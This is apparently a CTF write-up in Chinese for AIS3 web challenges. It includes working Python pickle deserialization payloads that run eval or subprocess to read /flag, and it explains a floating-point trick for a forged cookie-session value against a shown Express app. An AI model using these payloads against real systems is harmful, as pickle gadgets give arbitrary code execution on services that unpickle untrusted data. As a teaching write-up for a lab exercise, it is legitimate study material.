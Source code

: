 所以應該是pickle有問題 

官方文件也有提到pickel.loads不安全 可以ACE

抄一下官方解
```python 
import pickle, base64

class Foo:
    def __reduce__(self):
        return (eval, ('open("/flag").read()',))

print(base64.b64encode(pickle.dumps(Foo())))
# b'gANjYnVpbHRpbnMKZXZhbApxAFgUAAAAb3BlbigiL2ZsYWciKS5yZWFkKClxAYVxAlJxAy4='
```
或是這樣
```python
import pickle, base64, traceback
import  subprocess
base64.b64encode(pickle.dumps({'test':12}))

class Test(object):
  def __reduce__(self):
       return (subprocess.check_output, (['cat', '/flag'],))

'https://snake.ais3.org/?data={}'.format(base64.b64encode(pickle.dumps(Test())).decode('utf-8'))
```
其實上面提到的`if data not data `可以pass 參考官方解
### Rhino
先逛逛 /robots.txt 有東西

發現應該是用node js 寫的

就看看package.json 有寫過node 應該都知道

發現主要執行在 chill.js

```js
const express = require('express');
const session = require('cookie-session');

let app = express();

app.use(session({
  secret: "I'm watching you."
}));

app.use('/', express.static('./'));

app.get('/flag.txt', (req, res) => {
  res.setHeader('Content-Type', 'text/plain');

  let n = req.session.magic;

  if (n && (n + 420) === 420)
    res.sendFile('/flag');
  else
    res.send('you are a sad person too');
});

app.get('*', function(req, res){
  res.status(404).sendFile('404.html', { root: __dirname });
});

app.listen(process.env.PORT, '0.0.0.0');
```
反正考點就是 n 小數點太多會不精確 所以可以設n=0.000000000000000000001
